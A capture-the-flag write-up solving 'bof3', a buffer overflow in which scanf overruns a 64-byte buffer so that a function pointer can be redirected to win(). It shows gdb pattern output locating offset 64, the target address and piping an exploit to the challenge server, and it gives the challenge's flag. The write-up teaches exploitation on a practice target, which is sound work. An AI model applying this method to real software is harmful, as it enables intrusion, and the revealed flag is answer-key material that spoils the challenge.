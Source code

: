 # 25 points bof3


running on `nc ctf.hackucf.org 9002`

we are given the c code, so the vulnerability is very obvious, its a buffer overflow. If you didn't see that, it's okay, there its a vulnerability in scanf. There is a buffer size of 64 and a pointer to a function called lose. All we have to do is overwrite the address `fp` is pointer to with the address of win

```c
//in main
//functions availaible to returnt to : win & lose
void (*fp)();
char bof[64];

fp = &lose;

scanf("%s",bof);
fp();
```

### when running
```term
bof3$ ./bof3
sdfdasfsd
you suck!
```

#### In gdb

```
gdb-peda$ pattern_create 100 in
Writing pattern of 100 chars to filename "in"
gdb-peda$ r < in
Starting program: bof3 < in

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41644141 ('AAdA')
EBX: 0xf7fb3000 --> 0x1a9da8
ECX: 0xf7fb48a4 --> 0x0
EDX: 0x1
ESI: 0x0
EDI: 0x0
EBP: 0xffffcb58 ("AA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffcafc --> 0x80486ca (<main+49>:	mov    eax,0x0)
EIP: 0x41644141 ('AAdA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41644141

```
# the return address is at
EIP: 0x41644141 ('AAdA')

## pattern search this
```
gdb-peda$ pattern offset AAdA
AAdA found at offset: 64
```
the above was just to illustrate what we knew at the start, just for newcomers and illustrate tools I would use if I wasn't sure.


check objdump `$ objdump -M intel -d bof3 > bof3.asm`

find address of win() => `080485cb`

#### note when injecting the address, remember to inject it in Little endian! (see exploit.py)


# end result
```
bof3$ python exploit.py | nc ctf.hackucf.org 9002
flag{KETTLEOFKETCHUP}
```
